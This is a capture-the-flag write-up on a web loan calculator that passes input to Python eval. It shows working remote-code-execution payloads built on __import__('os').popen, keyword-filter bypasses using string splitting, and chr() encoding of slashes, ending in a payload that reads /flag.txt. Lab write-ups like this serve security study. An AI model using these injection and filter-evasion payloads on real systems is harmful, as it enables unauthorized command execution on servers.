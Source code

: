 According to the description of this CTF, the website is using an `eval` function for calculating bank loan. First, we make sure the webserver is instead using python. 

![alt text](images/image.png)

Next, we enter `7*7` in the input box, and indeed get 49 as result. 

![alt text](images/image-1.png)

![alt text](images/image-2.png)

Now, we try to use standard payload to get a RCE:

`__import__('os').popen('ls').read()`

![alt text](images/image-3.png)

It seems that the website is using keyword filtering. However, we shall be able to different techniques for bypassing. 

The first trick is split o and s

__import__('o'+'s').popen('id').read()

![alt text](images/image-4.png)

Nice. We execute the `id` command successfully. Next we want to locate the flag. Since `ls` is also filtered, we used the following

`__import__('o'+'s').popen('l'+'s').read()`

![alt text](images/image-5.png)

The `ls` command also executes. Next, we want to search the root directory. 

`__import__('o'+'s').popen('l'+'s /').read()`

![alt text](images/image-6.png)

It turns out that the web server blocks `/` (actually it also blocks `\`). However, we can still bypass by using the `ord` function and ascii number. 

`__import__('o'+'s').popen('l'+'s' + ' ' + f'{chr(47)}').read()`

![alt text](images/image-7.png)

To read the flag in challenge folder, our final payload is 

```python
__import__('o'+'s').popen('c'+'a' + 't' + ' ' + f'{chr(47)}' + 'flag' + f'{chr(46)}' + 'txt').read() 
```

i.e., `cat /flag.txt`